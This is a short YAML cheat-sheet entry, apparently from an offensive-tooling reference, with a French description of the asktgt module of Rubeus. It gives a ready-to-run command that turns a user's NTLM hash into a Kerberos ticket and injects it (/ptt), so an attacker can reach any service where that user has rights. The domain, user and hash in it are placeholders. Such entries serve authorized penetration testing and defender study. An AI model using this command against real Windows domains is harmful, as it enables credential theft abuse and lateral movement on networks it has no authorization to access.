 ```yaml
---
description: |
  Le module `asktgt` de Rubeus utilise le hash NTLM d'un utilisateur valide pour demander des tickets Kerberos, afin d'accéder à n'importe quel service ou machine où cet utilisateur a des permissions.

  Command Reference:

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe asktgt /domain:test.local /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asktgt
---
```

